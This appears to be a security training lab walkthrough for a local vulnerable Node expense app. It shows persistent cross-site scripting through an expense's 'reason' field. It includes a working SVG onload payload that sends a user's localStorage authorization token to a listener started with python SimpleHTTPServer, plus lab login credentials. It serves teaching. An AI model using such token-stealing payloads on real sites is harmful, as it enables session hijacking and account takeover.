




## Cross-Site Scripting - Persistent
## Pre-Processing
* Start the NodeJS Stack by running the following commands:
	* Open up the Terminal
	* If you have already started Node, then you dont need to do the next step
	* Command: `start_node.sh`
	* It will run a full stack deployment of a Front-end service, a Web Service and a Datbase. The Front-end service runs on port 5000, the Backend Web Service runs on port 3000. We will be using the Web Service (3000) for this exercise
	* Open the application `Insomnia` on your Desktop. This allows you to interact with the Web Service. Its an HTTP Client

### Exercise Instruction
First, we need to create an expense, and embed a cross site scripting payload in the one of the fields of the expense object.

1. For that, we need to login as user. In the sidebar you will find an option "Login User"

2. he request should already be filled out with user, Maya's email and password. You can just hit send on that requests

3. If you are successfully logged in, you should get an 200 Response with an Authorization Token. Copy that token and paste it in Mousepad/etc

4. Now in the sidebar, go to the `Create Expense` Request. Ensure that you add the copied Authorization Token in Header Tab in the Request page

5. In the JSON Tab, you can start making some edits to the JSON Payload. In the reason field, add the following payload to test for Cross-Site Scripting

`<svg onload=alert(localStorage.getItem('token'))></svg>`

Now, click Send. If all goes well, the expense should have been created in Maya william's account.

Now open Firefox (Web Browser) from the Main Menu. Goto: `http://localhost:5000`

Login with Maya's email and password: `maya.williams@widget.co` and password: `superman123`

In the top bar, you should find "Manage Expenses". Click on that. Once you do, shortly, you should see that a JavaScript alert is fired at you with the Authorization Token of Maya's. This indicates that the attack has worked and the application is vulnerable to Cross Site Scripting

### Token Hijacking with Cross-Site Scripting
Let's repeat Steps 1 - 4 from the previous exercise.

However, for Step 5 the XSS Payload will change to this:

`<svg onload=\"var xhr = new XMLHttpRequest();xhr.open('GET', 'http://127.0.0.1:8000?token='+localStorage.getItem('token'), true);xhr.send();\"/>`

Before you open Firefox and repeat the steps from the previous exercise. Open up another terminal window and type the following command into it.

`python -m SimpleHTTPServer`

Leave this terminal open

Now repeat the steps from the Firefox Browser and observe the results. Once the page loads, go back to the terminal window to see if the token has been captured

### Close Lab
* On the terminal that you ran the `start_node.sh` run `Ctrl + C` to shutdown the app.
* Now run `stop_node.sh` to gracefully bring down the stack.
